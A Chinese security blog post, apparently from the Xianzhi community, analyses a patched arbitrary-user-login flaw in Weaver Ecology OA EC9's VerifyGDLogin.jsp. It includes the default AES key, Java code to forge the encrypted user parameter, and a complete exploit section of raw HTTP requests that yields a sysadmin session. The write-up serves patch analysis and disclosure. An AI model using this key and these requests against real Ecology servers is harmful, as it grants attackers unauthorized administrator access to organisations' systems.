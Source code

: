 

# 某 OA EC9 VerifyGDLogin 任意用户登录分析 - 先知社区

某 OA EC9 VerifyGDLogin 任意用户登录分析

- - -

## 0x01 前言

在跟踪泛微补丁包时发现`Ecology_security_20230725_v9.0_v10.58.3`的`SecurityRuleGdLogin0317`的补丁疑似修复了一个 SQL 注入，因此跟踪下看看

[![](assets/1701678526-0c395faeb0159a585e88d0e1e61f8b8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129151943-aac0797e-8e87-1.png)

上图为补丁关键操作，看内容像是进行了 SQL 注入检测，后续分析发现是一处任意用户登录

## 0x02 分析

跟踪关键文件`login/VerifyGDLogin.jsp`

[![](assets/1701678526-ba072af16128b804b6c21768107ab085.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152010-bb4972aa-8e87-1.png)

看源码为从 URI 中获取`para`、`para1`、`para2`后调用`PoppupRemindInfoUtil.decrypt`对`para2`做解密，然后通过`weaver.login.VerifyGDLogin#getUserCheck`方法进行登录校验

[![](assets/1701678526-984810f64d1b59310bd62f2d62c45d36.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152019-c065a394-8e87-1.png)

其中`PoppupRemindInfoUtil.decrypt`方法首先会校验`WEB-INF/prop/AESpassword.properties`中的`pwd`项是否为空，不为空则赋值给`var1`，为空则给`var1`赋值`1`

[![](assets/1701678526-7dcf98168ef33f59b5376e1a3562e37a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152024-c3286238-8e87-1.png)

然后使用`SM4IntegrationUtil.USE_SM4`方法判断是否启用了国密`SM4加密算法`，如启用则使用 SM4 解密，否则调用`AES.decrypt`进行解密，默认为`false`

[![](assets/1701678526-ea34df91afa812523d760f4fe03b78cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152028-c5e8ff8c-8e87-1.png)

其中`AES.decrypt`方法如下

[![](assets/1701678526-a1e3f199ab6b5c8bd048166d6c3f1be0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152034-c9381a74-8e87-1.png)

那么加密函数就为`AES.encrypt`，代码如下

```bash
public static String encryptAES_SunJCE(String var0, String var1) {
        byte[] var2 = null;
        try {
            KeyGenerator var3 = KeyGenerator.getInstance("AES");
            SecureRandom var4 = SecureRandom.getInstance("SHA1PRNG");
            var4.setSeed(var1.getBytes());
            var3.init(128, var4);
            SecretKey var5 = var3.generateKey();
            byte[] var6 = var5.getEncoded();
            SecretKeySpec var7 = new SecretKeySpec(var6, "AES");
            Cipher var8 = Cipher.getInstance("AES", "SunJCE");
            byte[] var9 = var0.getBytes();
            var8.init(1, var7);
            var2 = var8.doFinal(var9);
        } catch(NoSuchProviderException var10) {
            var10.printStackTrace();
        } catch(NoSuchAlgorithmException var11) {
            var11.printStackTrace();
        } catch(NoSuchPaddingException var12) {
            var12.printStackTrace();
        } catch(InvalidKeyException var13) {
            var13.printStackTrace();
        } catch(IllegalBlockSizeException var14) {
            var14.printStackTrace();
        } catch(BadPaddingException var15) {
            var15.printStackTrace();
        }
        return var2 == null ? "" : Tools.parseByte2HexStr(var2);
    }
```

生成加密数据的代码

```bash
package test;
import com.pluginweaver.utils.CryptTool;

public class testAesCrypt {
    public static void main(String[] args) {
        //4DUa6Wq9
        //1
        String cryptStr="1";
        String enStr=CryptTool.encryptAES_SunJCE( cryptStr,"4DUa6Wq9");
        System.out.println(enStr);
    }
}
```

[![](assets/1701678526-922b3693aa799f3f07314205a556a5c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152041-cd4ac2e2-8e87-1.png)

## 0x03 Exploit

按照前文分析构造好数据包后发送

```bash
POST /login/VerifyGDLogin.jsp HTTP/1.1
Host: 192.168.232.129
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

para=ViewRequest.jsp&para1=123&para2=E4D160ED60A81E804F24EE2AE592D66F
```

[![](assets/1701678526-e3c810077d2cdf36804ce2e0195a662c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152047-d0e81512-8e87-1.png)

复制返回的`ecology_JSessionid`访问需要鉴权的接口即可以`sysadmin`登录

```bash
GET /api/hrm/login/getAccountList?__random__=1700633695101 HTTP/1.1
Host: 192.168.232.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Accept: */*
Referer: http://192.168.232.129/wui/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ecology_JSessionid=aaaOhmJeYzN2NbvHFv1Vy;
Connection: close
```

[![](assets/1701678526-d60340b78d411b0c75a27836d18054b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152052-d3e42fa8-8e87-1.png)
